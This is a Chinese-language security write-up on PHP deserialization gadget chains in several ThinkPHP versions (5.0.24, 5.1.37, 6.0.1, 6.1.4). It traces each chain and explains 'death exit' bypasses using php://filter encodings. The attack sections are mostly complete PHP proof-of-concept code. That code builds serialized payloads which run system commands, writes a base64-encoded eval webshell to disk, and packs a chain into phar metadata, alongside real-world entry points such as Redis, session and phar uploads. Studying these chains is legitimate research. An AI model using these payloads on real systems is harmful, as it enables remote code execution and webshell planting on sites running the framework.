0x01 反序列化利用链
审计思路
php魔术方法
__call 调用不可访问或不存在的方法时被调用
__callStatic 调用不可访问或不存在的静态方法时被调用
__clone 进行对象clone时被调用，用来调整对象的克隆行为
__constuct 构建对象的时被调用；
__debuginfo 当调用var_dump()打印对象时被调用（当你不想打印所有属性）适用于PHP5.6版本
__destruct 明确销毁对象或脚本结束时被调用；
__get 读取不可访问或不存在属性时被调用
__invoke 当以函数方式调用对象时被调用
__isset 对不可访问或不存在的属性调用isset()或empty()时被调用
__set 当给不可访问或不存在属性赋值时被调用
__set_state 当调用var_export()导出类时，此静态方法被调用。用__set_state的返回值做为var_export的返回值。
__sleep 当使用serialize时被调用，当你不需要保存大对象的所有数据时很有用
__toString 当一个类被转换成字符串时被调用
__unset 对不可访问或不存在的属性进行unset时被调用
__wakeup 当使用unserialize时被调用，可用于做些对象的初始化操作反序列化的起点：
__wakeup和__destruct两个魔术方法
反序列化的跳板：
__toString 当一个对象被当做字符串使用
__get 读取不可访问或不存在属性时被调用
__set 当给不可访问或不存在属性赋值时被调用
__isset 对不可访问或不存在的属性调用isset()或empty()时被调用
__call 调用不可访问或不存在的方法时被调用反序列化的终点：
call_user_func 回调函数
call_user_func_array 回调函数
file_put_contents 文件写入
$a($b) 变量函数反序列化链的审计思路就是把上面的思路联系起来：
- 寻找__wakeup和__destruct魔术方法，查看里面是否有机会调用其他魔术方法，比如调用不存在的方法会调用__call的魔术方法
- 接下来的思路就是继续寻找可以利用的魔术方法
- 寻找最终的终点函数，如方法中存在callback调用和文件写入、变量函数等等，总之就能能漏洞利用的点。
这就是整个反序列化链的构造方式
①ThinkPHP 5.0.x 反序列化
测试版本：5.0.24
一、反序列化链调通过程
1. 寻找入口点
寻找__destruct魔术方法

2. 寻找中途的魔术方法
- 跟入removeFiles方法，这里处理$filename变量，unlink会触发toString魔术方法。

- 寻找可使用的toString方法

跟入toJson方法

跟入toArray方法

912行这里有一个对象调用方法的代码，在找不到对象的方法时，会调用__call魔术方法

- 寻找可利用的__call魔术方法

跟入block方法

跟入writeln方法

跟入到write方法，这里可能得到了一个调用任意类的write方法的地方

这里得到了一个调用任意类的set方法的地方

3.找到最终利用点
set方法就很熟悉了，我们之前分析命令执行的时候
\think\cache\driver\File::set

文件写入的时候，有exit，这个看p牛的文件写入绕死亡exit就行了。
https://www.leavesongs.com/PENETRATION/php-filter-magic.html
4.构造完整利用链
分析如何才能调用__call方法
主要有四个if逻辑，最后让最下面的$value为想调用__call方法的类即可，先分析if逻辑，后分析赋值逻辑
- $relation要为Model类自带的方法名称
- 执行Model类的方法后，获取的类，方法要存在getBindAttr
- modelRelation类要存在getBindAttr方法要有返回值
- 不设置data[$key]的值

变量赋值对应着右边的三个方法
- 第一处parseName方法仅做大小写替换操作，$relation可控
- 第二处调用该类自己的方法，这里找到了getError方法，因为方法的返回值是可控的，$modelRelation可控
- 第三处调用的方法跟进去，在第一个if逻辑，返回值为this->parent，可控。

分析一下第三处的方法的if逻辑
- 第一处返回值可控
- 第二处我们需要寻找一个可控的getModel方法的类，在下方的Query类即可找到可控的。


接下来就是符合Relation子类了，这个类还要有getBindAttr方法
找到了OneToOne类，同时这里的bindAttr参数也是可控的，这样最开始的逻辑也能进去了。


这下call魔术方法已经可以正常调用到了
后面的call魔术方法触发set逻辑很简单，没有if之类的逻辑，问题在绕过死亡exit的地方。
二、死亡exit绕过
这个在p牛的博客已经写过了，简单来说就是filename可控的时候，使用php://filter伪协议会把content编码处理，这样exit就不会写到文件中了。
https://www.leavesongs.com/PENETRATION/php-filter-magic.html

p🐂这里给的例子是函数两个参数均可控的时候，如果filename和content为一个参数时
<?php
$content = $_GET[content];
file_put_contents($content,'<?php exit();'.$content);看一下这篇博客。
简单学习和总结一下：
- 我们想到的第一种方式就是依旧和上面一样的思路，使用base64过滤器
php://filter/convert.base64-decode/PD9waHAgcGhwaW5mbygpOz8+/resource=s1mple.php或者php://filter/convert.base64-decode/resource=PD9waHAgcGhwaW5mbygpOz8+.php
这样写入的内容应该是<?php exit();php://filter/convert.base64-decode/resource=PD9waHAgcGhwaW5mbygpOz8+.php的base64解码，但是实际会生成文件，但无法写入内容。因为base64在=后面不能存在字符。
- 因此想办法去掉=即可，寻找可用的php的过滤器。
string.strip.tags过滤器，去除html和php标签（在php7.3后无法使用）
这样得到了一个payload：
php://filter/string.strip.tags|convert.base64-decode/resource=?>PD9waHAgcGhwaW5mbygpOz8%2B.php
但这样写，文件名存在特殊字符，Windows下面无法创建文件
Linux测试一下

利用跨目录控制文件名。
php://filter/string.strip.tags|convert.base64-decode/resource=?>PD9waHAgcGhwaW5mbygpOz8%2B/../1.php
这个在Windows环境下做测试居然失败了，难道是跨目录的问题？暂时没研究了

- 考虑使用其他编码类的过滤器，这样就可以避免=带来的问题了。
php://filter/write=string.rot13|<?cuc cucvasb();?>|/resource=1.php
使用rot13凯撒，同时php寻找不到过滤器只会抛出警告，所以我们的payload可以放在过滤器的位置（但无法在tp中使用，tp会直接抛出异常）
最终结果如下：
如果php不开启短标签的话，前面的<?部分就会被忽略，不会影响解析

- 上面的rot13在短标签开启的时候会报错，无法正常使用，可以使用自带的iconv的过滤器
usc-2过滤器：两位一反转

php://filter/convert.iconv.UCS-2LE.UCS-2BE|?<hp pe@av(l_$OPTSs[m1lp]e;)>?/resource=12.php

usc-4过滤器：四位一反转
php://filter/convert.iconv.UCS-4LE.UCS-4BE|hp?<e@ p(lavOP_$s[TS]pm1>?;)/resource=s1mple.php

UTF编码转换：
可以把=做编码转换，这样在设置base64解码的时候就不再受到影响了
php://filter/write=PD9waHAgQGV2YWwoJF9QT1NUWydhJ10pOz8+|convert.iconv.utf-8.utf-7|convert.base64-decode/resource=s1mple.php

运用到TP上filter的位置就不能放payload了，TP会直接抛出异常，因此需要改一下payload的位置
php://filter/convert.iconv.utf-8.utf-7|convert.base64-decode/resource=1PD9waHAgQGV2YWwoJF9QT1NUWydhJ10pOz8+/../nb.php
PD9waHAgQGV2YWwoJF9QT1NUWydhJ10pOz8+，正常的base64的payload是这样的，实际情况要根据前面的字符数量，在payload的前面增加字符做填充，这样才能让最终base64解码的时候刚好解码到这个地方。
看回源码，这里的filename参数是可控的，因此理论上应该可以绕过死亡exit

三、POC编写
写poc注意一下ThinkPHP的命名空间
Thinkphp命名空间实际上也很好理解，可以理解成一个模块化的定义。A模块的方法调用B模块里面的方法，带着模块名访问初始化就可以了。
先按照上面分析的思路编写一个poc:
<?php
namespace think\process\pipes{
class Windows{
private $files = [];
function __construct($a){
$this->files = [$a];
}
}
}// Windows类，入口反序列化触发toString
//Pivot类，Model类的子类，触发__call方法
namespace think\model{
class Pivot{
protected $append = ["1"=>"getError"];
protected $error;
protected $parent;
function __construct($a,$b){
$this->error = $a;
$this->parent = $b;
}
}}
// HasOne类，Relation类的子类，触发if条件需要
namespace think\model\relation{
class HasOne{
protected $selfRelation = false;
protected $query;
protected $bindAttr = ['1'=>1];
function __construct($a){
$this->query = $a;
}
}}
// Query类，为了符合上面的getModel条件
namespace think\db{
class Query{
protected $model;
function __construct($a){
$this->model = $a;
}
}}
// __call方法触发类
namespace think\console{
class Output{
protected $styles = ["getAttr"];
private $handle;
function __construct($a){
$this->handle = $a;
}
}}
namespace think\session\driver{
class Memcached{
protected $handler;
function __construct($a){
$this->handler = $a;
}
}}
namespace think\cache\driver{
class File{
protected $options =
['path' => '', // 这里是filename部分
'expire' => '0',
'cache_subdir' => '0',
'prefix' => '0',
'data_compress' => false];
}}
namespace{
$fileObj = new \think\cache\driver\File();
$memObj = new \think\session\driver\Memcached($fileObj);
$outputObj = new \think\console\Output($memObj);
$queryObj = new \think\db\Query($outputObj);
$hasoneObj = new think\model\relation\HasOne($queryObj);
$pivotObj = new think\model\Pivot($hasoneObj, $outputObj);
$windows = new think\process\pipes\Windows($pivotObj);
echo base64_encode(serialize($windows));
}
debug看一下，成功控制filename部分，接下来就是content部分，看一下是否可控了：

发现最初调set的时候，参数内容就不可控，写死为了true

没办法，只能尝试寻找其他调用set方法的地方，且set方法的参数value部分可控。
在下面的操作逻辑中，刚好有一处调用set方法的地方，分析一下value参数，发现就是传入的参数，也就是filename。

因此我们实际上得到了一个filename和content存在相同变量的死亡exit场景。
这个场景我们上面讨论过了，因此修改一下exp：
<?php
namespace think\process\pipes{
class Windows{
private $files = [];
function __construct($a){
$this->files = [$a];
}
}
}// Windows类，入口反序列化触发toString
//Pivot类，Model类的子类，触发__call方法
namespace think\model{
class Pivot{
protected $append = ["1"=>"getError"];
protected $error;
protected $parent;
function __construct($a,$b){
$this->error = $a;
$this->parent = $b;
}
}}
// HasOne类，Relation类的子类，触发if条件需要
namespace think\model\relation{
class HasOne{
protected $selfRelation = false;
protected $query;
protected $bindAttr = ['1'=>1];
function __construct($a){
$this->query = $a;
}
}}
// Query类，为了符合上面的getModel条件
namespace think\db{
class Query{
protected $model;
function __construct($a){
$this->model = $a;
}
}}
// __call方法触发类
namespace think\console{
class Output{
protected $styles = ["getAttr"];
private $handle;
function __construct($a){
$this->handle = $a;
}
}}
namespace think\session\driver{
class Memcached{
protected $handler;
function __construct($a){
$this->handler = $a;
}
}}
namespace think\cache\driver{
class File{
protected $options =
['path' => 'php://filter/convert.iconv.utf-8.utf-7|convert.base64-decode/resource=111PD9waHAgQGV2YWwoJF9QT1NUWydhJ10pOz8+/../nb.php',
'expire' => '0',
'cache_subdir' => '0',
'prefix' => '0',
'data_compress' => false];
protected $tag = 1;
}}
namespace{
$fileObj = new \think\cache\driver\File();
$memObj = new \think\session\driver\Memcached($fileObj);
$outputObj = new \think\console\Output($memObj);
$queryObj = new \think\db\Query($outputObj);
$hasoneObj = new think\model\relation\HasOne($queryObj);
$pivotObj = new think\model\Pivot($hasoneObj, $outputObj);
$windows = new think\process\pipes\Windows($pivotObj);
echo base64_encode(serialize($windows));
}
最终效果：


https://github.com/Mochazz/ThinkPHP-Vuln/blob/master/ThinkPHP5/ThinkPHP5.0.X反序列化利用链.md
这篇blog还提到了如果目录不允许写入文件，通过其他方法创建文件。
四、其他版本的反序列化链分析
测试发现5.0的不同小版本的函数稍微有些区别
后面有空再分析， 可以参考一下这篇文章：
https://www.anquanke.com/post/id/251318#h2-1
②ThinkPHP 5.1.x 反序列化
TP5.1的反序列化比TP5.0的要简单的不少
测试版本：5.1.37
一、反序列化调通过程
1. 入口点
入口寻找__destruct方法，与TP5.0相同

2. ToString 魔术方法
依旧是此方法触发tostring

3. 中途利用点
这里看一下getAttr方法

这里有一处函数变量

4.构造中途条件
这条函数方法的pop链的条件很好构造：
- toarray方法的逻辑，可以直接进入，只要赋值data就可以，就可以进入下图中的getAttr方法

- if逻辑可以赋值类参数解决，看一下value的值如何获取即可。
value是拿的data数组的name键值对应的值
closure是拿的withAttr数组的name键值对应的值

二、POC编写
写之前注意两个问题：
- PHP中函数参数超出时会忽略，因此这里我们可以理解成可以调用一个参数的函数。value)，当然这里情况可能更好一点，因为图中的$this->data其实也是可控的。
- 写poc时，因为触发点的类是trait的，而use这些类的Model是抽象类，写poc时，要找子类，定义属性的时候，一定要把属性定义到抽象类里面，而不是定义在子类里面。
<?php
namespace think\process\pipes{
Class Windows{
private $files;
function __construct($a){
$this->files = [$a];
}
}
}
namespace think\model{
Class Pivot{
private $data = ['system'=>'calc'];
private $withAttr = ['system' => 'system'];
}
}
namespace{
$p = new \think\model\Pivot();
$w = new \think\process\pipes\Windows($p);
echo base64_encode(serialize($w));
}
很优美的一条链

如果想更实战化一点，我们可以选择调用file_put_contents方法，因为上面也分析过，这里的data也是可控的。

<?php
namespace think{
abstract Class Model{
private $data = ['a'=>'914.php','1' => '<?php phpinfo()?>'];
private $withAttr = ['a' => 'file_put_contents'];
}
}
namespace think\process\pipes{
Class Windows{
private $files;
function __construct($a){
$this->files = [$a];
}
}
}
namespace think\model{
use \think\Model;
Class Pivot extends Model{
}
}
namespace{
$p = new \think\model\Pivot();
$w = new \think\process\pipes\Windows($p);
echo base64_encode(serialize($w));
}
三、其他反序列化链分析
上面分析的链其实很简单，当然5.1还有另一个常见的链，具体如下：
https://paper.seebug.org/1040/#_1
这个利用了TP的filterValue类（变量覆盖RCE那里），最终触发了callback执行，有精力再学习一下
③ThinkPHP 5.2.x 反序列化
搭建环境失败了
看一下这篇文章参考一下吧。
https://github.com/Mochazz/ThinkPHP-Vuln/blob/master/ThinkPHP5/ThinkPHP5.2.X反序列化利用链.md
实际上和上面分析的5.1.x的链是一样的。
④ ThinkPHP6.0.x 反序列化
tp6.0.x网上说低版本可以复用5.1.x后半部分的链接。
https://xz.aliyun.com/t/12630 可以看一下这篇文章
但是本地安装发现，低版本实际上也已经patch过了，因此去找其他链

后面的链的测试版本6.0.1
一、反序列化调通过程
实际上发现在另一个逻辑上，也可能存在变量函数。

那先找toString方法触发地。
1.寻找toString方法触发点
字符串拼接触发toString方法

触发toString的在此处，上面最后一步的$this->db()方法。

二、POC编写
<?php
namespace think {
abstract class Model {
private $lazySave = false;
private $data = [];
private $exists = false;
protected $table;
private $withAttr = [];
protected $json = [];
protected $jsonAssoc = false;
public function __construct($obj='') {
$this->lazySave = true;
$this->data = ['calc'=>['calc']];
$this->exists = true;
$this->table = $obj;
$this->withAttr = ['calc'=>['system']];
$this->json = ['calc'];
$this->jsonAssoc = true;
}
}
}
namespace think\model {
use think\Model;
class Pivot extends Model {
}
$p = new Pivot(new Pivot());
echo base64_encode(serialize($p));
}
三、其他反序列化链分析
分析一下另一个写文件的利用链
上面分析过_toString的触发，这里找一下toString的其他利用位置：
下图中的类是可以走到__call方法的

__call方法的利用点就多了，继续找一下
output类可以调用任意类的write方法。

跟入到file类，依旧是任意类的write方法，但是第一个参数已经可控了。第二个参数会是我们上面write传的第一个messages参数。（就是最初触发点的参数）

接下来继续找两个参数的write方法。file类完美符合要求。

<?php
namespace think\model\concern{
trait Attribute{
private $data = ['test'];
}
}
namespace think\view\driver{
class Php{}
}
namespace think\session\driver{
class File{
}
}
namespace League\Flysystem{
class File{
protected $path;
protected $filesystem;
public function __construct($File){
$this->path='test.php';
$this->filesystem=$File;
}
}
}
namespace think\console{
use League\Flysystem\File;
class Output{
protected $styles=[];
private $handle;
public function __construct($File){
$this->styles[]='getDomainBind';
$this->handle=new File($File);
}
}
}
namespace think{
abstract class Model{
use model\concern\Attribute;
private $lazySave;
protected $withEvent;
protected $table;
function __construct($cmd,$File){
$this->lazySave = true;
$this->withEvent = false;
$this->table = new route\Url(new Middleware,new console\Output($File),$cmd);
}
}
class Middleware{
public $request = 2333;
}
}
namespace think\model{
use think\Model;
class Pivot extends Model{}
}
namespace think\route{
class Url
{
protected $url = 'a:';
protected $domain;
protected $app;
protected $route;
function __construct($app,$route,$cmd){
$this->domain = $cmd;
$this->app = $app;
$this->route = $route;
}
}
}
namespace{
echo base64_encode(serialize(new think\Model\Pivot('<?php phpinfo(); exit(); ?>',new think\session\driver\File)));
}⑤ThinkPHP6.1.x反序列化
测试版本6.1.4
tp6.0的链可以通用
- 命令执行

-
写文件
6.1 版本默认不携带Flysytem类，导致上面分析的写文件链无法再次使用。


⑥ThinkPHP8.0.x反序列化
暂时不自己分析了，可以看一下这篇文章，其实上面分析了这么多条链。自己挖掘也就很简单了
文章中也是toString走到call，然后走到callback的sink点，完成了利用。
主要难点在于if条件的构造，确实是个麻烦的大工程。
顺带推荐一个题目：强网杯pop_master
0x02 实战利用
刚开始学反序列化的时候一直有疑问，tp的反序列化漏洞如何利用呢？？为什么网络上都是分析pop链，而很少有实战的例子呢？
其实这也就引出了反序列化漏洞的前提：
- 存在反序列化pop链
- 存在反序列化的入口，也就是接收数据并进行反序列化的操作。
因为tp实质上是一个框架，所以你并不知道开发者可能如何写业务，如果业务中涉及到处理对象，那就很有可能写了反序列化的入口。
总结一下，实战中的入口主要有如下：
原生反序列化
字面意思
php自带的unserialize方法
Redis模块
既然自带了unserialize方法，那么我们去tp框架搜索一下该方法，有没有什么方法是封装了这个函数的呢？
- 不难发现redis模块的get方法获取键值的时候是调用反序列化方法的
值以think_serialize开始会进行反序列化

当然高版本的get方法实现起来又不一样了，tp6是另一套写法，tp5这个实战比较多，就拿这个举例了
Session反序列化
https://www.freebuf.com/vuls/202819.html
ctf比较常见
当然实战中也有产品能遇到，比如：瑞友天翼应用虚拟化
Phar反序列化
phar反序列化是实战中的大头，先简单总结一下，phar文件的metadata部分存储的是反序列化数据，当使用phar协议处理文件时，会对这部分数据进行反序列化。（PHP8已经做了修复）
主要影响的函数就是文件操作相关的。

实际上很好理解：
- 生成恶意的phar文件。（后缀无要求）
代码上半部分是上面分析的pop链。
下半部分重点把metadata部分设置成pop链的对象即可。
<?php
namespace think {
abstract class Model {
private $lazySave = false;
private $data = [];
private $exists = false;
protected $table;
private $withAttr = [];
protected $json = [];
protected $jsonAssoc = false;
public function __construct($obj='') {
$this->lazySave = true;
$this->data = ['calc'=>['calc']];
$this->exists = true;
$this->table = $obj;
$this->withAttr = ['calc'=>['system']];
$this->json = ['calc'];
$this->jsonAssoc = true;
}
}
}
namespace think\model {
use think\Model;
class Pivot extends Model {
}
}
namespace{
$p = new \think\model\Pivot(new \think\model\Pivot());
$phar = new Phar("phar.phar"); //代码里面必须是phar后缀，生成完使用伪协议触发不需考虑后缀
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
$phar->setMetadata($p); //自定义metadata
$phar->addFromString("test.txt", "test"); // 添加文件
//签名自动计算
$phar->stopBuffering();
}- 伪协议触发（实战中需要自己尝试上传文件）
分析到这里也能看到，我们代码中必须是整个参数都可以控制，这样才能控制phar前缀
参考链接
https://blog.riskivy.com/挖掘暗藏thinkphp中的反序列利用链/
https://www.anquanke.com/post/id/251318#h2-2